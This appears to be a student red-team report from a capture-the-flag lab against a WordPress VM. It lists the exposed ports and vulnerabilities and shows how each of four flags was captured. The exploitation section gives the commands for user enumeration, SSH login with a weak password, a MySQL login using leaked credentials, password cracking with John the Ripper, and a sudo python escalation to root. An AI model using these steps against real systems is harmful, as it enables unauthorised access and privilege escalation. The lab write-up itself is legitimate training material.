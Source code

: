 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

![nmap](Images/nmap.PNG)

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Services
	1. Port 22/TCP - Open SSH
	2. Port 80/TCP - Open HTTP
	3. Port 111/TCP - Open rpcbind
	4. Port 139/TCP Open netbios-ssn
	5. Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target (with severity levels):

Target 1
- User Enumeration (Wordpress) - Medium
- Weak Password Implementation - Critical - CWE 521
- No file security permission implemented - High
- Use of weak password salted hashes - High
- Python root escalation privileges - Critical - CWE 269
- Directory traversal - High


### Exploitation


The Red Team was able to penetrate `Target 1` retrieve the following confidential data:
- Target 1
  - `flag1.txt`:{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - SSH to server using weak password
      - After enumerating users with wpscan --url http://192.168.1.110 --enumerate u, the user Michael's password was exploited. SSH connection was established by: ssh michael@192.168.1.110, password:michael.

![users](Images/users.PNG)

![ssh](Images/ssh.PNG)
      
      - The flag was found using: grep -R flag1
![flag1](Images/flag1.PNG)

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Same exploit as Flag 1
      - The second flag was found moving into the /var/www directory while searching for the wp-config.php file. The following commands were used: cd .., ls -ah, cat flag2.txt
      - 
![flag2](Images/flag2.PNG)
  
  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Accessing mysql database using the wp-config.php file
      - The wp-config.php contained the login credentials for the mysql Wordpress database. Commands used: mysql -u root -pR@v3nSecurity wordpress, show tables;, select * from wp_posts;

![34](Images/34.PNG)

  - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Same exploit as Flag 3
      - The third and fourth flag were found together in the mysql database. Note: Another way to obtain flag 4 is to get Steven's password hash from the wp_users table in the database. Using JohnTheRipper, john/root/Desktop/hashes.txt --wordlist=rockyou.txt, gave pink84 as Steven's password. From there an SSH connection could be made: ssh steven@192.168.1.110. To escalate to root after seeing Steven has python sudo access using sudo -l, the following command gave root access: sudo ./python -c 'import os;os.system("/bin/bash")'

![pass](Images/pass.PNG)

![flag4](Images/flag4.PNG)

